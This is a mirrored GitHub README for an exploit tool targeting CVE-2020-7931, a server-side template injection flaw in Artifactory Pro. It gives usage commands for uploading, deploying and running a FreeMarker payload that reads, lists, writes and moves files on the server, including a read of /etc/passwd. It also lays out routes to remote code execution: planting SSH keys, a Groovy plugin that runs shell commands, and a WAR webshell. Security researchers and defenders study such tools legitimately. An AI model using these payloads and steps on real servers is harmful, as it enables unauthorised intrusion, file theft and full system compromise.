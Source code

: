 # CVE-2020-7931

Hacking Artifactory with server side template injection

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/gquere](https://github.com/gquere) |
| Url      | [https://github.com/gquere/CVE-2020-7931](https://github.com/gquere/CVE-2020-7931)                                               |
| Stars    | 48                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* artifactory* cve-2020-7931* exploit* hacking* pentest* rce

</details>

## Readme

CVE-2020-7931: SSTI exploitation in Artifactory Pro
===================================================

CVE-2020-7931 is somewhat of a purposeful misconfiguration vulnerability in Artifactory that lets attackers conduct [server-side template injections](https://portswigger.net/kb/issues/00101080_server-side-template-injection) from a [FreeMarker template](https://freemarker.apache.org/).

The vulnerability was discovered by [Ryan Hanson from Atredis](https://github.com/atredispartners/advisories/blob/master/ATREDIS-2019-0006.md) and was fixed for all affected versions in late 2019. It will only work on the Pro versions of Artifactory, as other versions do not have templating capabilities.

This repository contains a [script](./artifactory_CVE-2020-7931.py) and a [template](./sample.xml).

* The python script is a wrapper to automate the uploading, deployment and execution of template payloads.
* The template implements many primitives (read, list, write...) that interact with the filesystem and lead to Remote Code Execution.


Template contents
-----------------

The template grabs the first GET parameter to determine its desired action. Valid actions are:
```
info                                    Returns info about the current configuration
read <filepath>                         Reads a file, as is
read_bytes <filepath>                   Reads a file binarily as integers
list <dirpath>                          List a directory contents
create_file <filepath>                  Create an empty file
mkdir <dirpath>                         Create a folder
delete <filepath>                       Delete a file or empty folder
move <src> <dst>                        Move a file (*)
copy <scr_path> <src_file> <dst>        Copy a file to the application's web root. Pay attention to the quirky arguments (**)
```

(\*): move uses the Java [renameTo method](https://docs.oracle.com/javase/7/docs/api/java/io/File.html#renameTo(java.io.File)) which does not work accross different filesystems. To perform a move accross filesystems, copy then move have to be used, more info below.

(\*\*): source has to be split between the basepath and the filename; destination is relative to artifactory's web application root path, e.g. ```/opt/jfrog/artifactory/tomcat/webapps/artifactory/```


Script usage
------------
```
usage: artifactory_CVE-2020-7931.py [-h] -H HOST [-u USER] [-p PASSWORD]
                                    [-c COOKIE] [-U UPLOAD] [-g]
                                    [-d DROP_TEMPLATE] [-e EXEC_TEMPLATE] [-r]
                                    [-R REPOSITORY_NAME]

optional arguments:
  -h, --help            show this help message and exit
  -H HOST, --host HOST
  -u USER, --user USER
  -p PASSWORD, --password PASSWORD
  -c COOKIE, --cookie COOKIE
  -U UPLOAD, --upload UPLOAD
  -g, --get_cookie
  -d DROP_TEMPLATE, --drop_template DROP_TEMPLATE
  -e EXEC_TEMPLATE, --exec_template EXEC_TEMPLATE
  -r, --reload_plugins
  -R REPOSITORY_NAME, --repository_name REPOSITORY_NAME
                        Default: example-repo-local
```

### Getting and setting a cookie
```
export cookie=$(./artifactory_CVE-2020-7931.py -H http://localhost:8081 -g -u admin -p password | grep '-') && echo $cookie
```

### Uploading a file
```
./artifactory_CVE-2020-7931.py -H http://localhost:8081/ -c $cookie -U sample.groovy
```

### Deploying the template
```
./artifactory_CVE-2020-7931.py -H http://localhost:8081/ -c $cookie -d sample.xml
```

### Executing the template
```
./artifactory_CVE-2020-7931.py -H http://localhost:8081/ -c $cookie -e sample.xml list /etc/
./artifactory_CVE-2020-7931.py -H http://localhost:8081/ -c $cookie -e sample.xml read /etc/password
```

### Copying a file accross mountpoints
As we've seen, renameTo() will not work accross different filesystems. To emulate this, first copy the file then move it (do it immediately, or else artifactory might crash!):
```
./artifactory_CVE-2020-7931.py -H http://localhost:8081/ -c $cookie -e sample.xml copy /var/opt/jfrog/artifactory/data/tmp/artifactory-uploads/ bla /bla (***)
./artifactory_CVE-2020-7931.py -H http://localhost:8081/ -c $cookie -e sample.xml move /opt/jfrog/artifactory/tomcat/webapps/artifactory/bla /etc/bla
```

(\*\*\*): As explained previously, here ```/bla``` actually refers to ```/opt/jfrog/artifactory/tomcat/webapps/artifactory/bla``` because ```root.write()``` will necessarily write to the current application's web root.

This lets you exploit configurations that are storing artifacts on a separate filesystem (which is a sound practice!).


Getting Remote Code Execution
-----------------------------
By default with an artifactory install, it's not possible to instantiate classes, thus the [regular freemarker.template.utility.Execute trick](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#code-execution-2) will not work.

There are several other ways to get remote code execution just by manipulating the filesystem:

* adding a public key to the users's authorized_keys file, which might not work for a number of reasons (maybe there's no SSH, maybe it has no PubKey authentication, maybe it's configured to look in /etc/ssh/authorized_keys rather than in user's homes ...)
* executing a groovy plugin
* starting a Tomcat servlet that implements a webshell


### Executing a groovy plugin
Here's an example of a groovy plugin that performs shell execution, [more elaborate examples here](https://github.com/gquere/pwn_jenkins#command-execution-from-groovy):
```
def proc = "ls -la /etc".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```

Plugins have to be placed in the plugin path ```/var/opt/jfrog/artifactory/etc/plugins/``` and have to be reloaded by using an [API call](https://www.jfrog.com/confluence/display/JFROG/Artifactory+REST+API#ArtifactoryRESTAPI-ReloadPlugins) that requires **Artifactory admin privileges**:
```
./artifactory_CVE-2020-7931.py -H http://localhost:8081/ -c $cookie -r
```


### Starting a Tomcat servlet (deploying a .war file)
Here's a [Tomcat servlet](https://github.com/gquere/javaWebShell) that implements a webshell.

WAR files have to be placed in Tomcat webapps path ```/opt/jfrog/artifactory/tomcat/webapps/```. By default, deployment of WAR files is automatic and will start another web application next to the Artifactory instance, e.g. at ```http://localhost:8081/sample/```.

This is the preferred method as it does not require Artifactory admin privileges and it's just simpler to execute commands on the fly.



## Get the content

```
git clone https://github.com/gquere/CVE-2020-7931
cd CVE-2020-7931
```

{% embed url="https://github.com/gquere/CVE-2020-7931" %}

<figure><img src="https://avatars.githubusercontent.com/u/1585000?v=4" alt=""><figcaption><p>gquere</p></figcaption></figure>
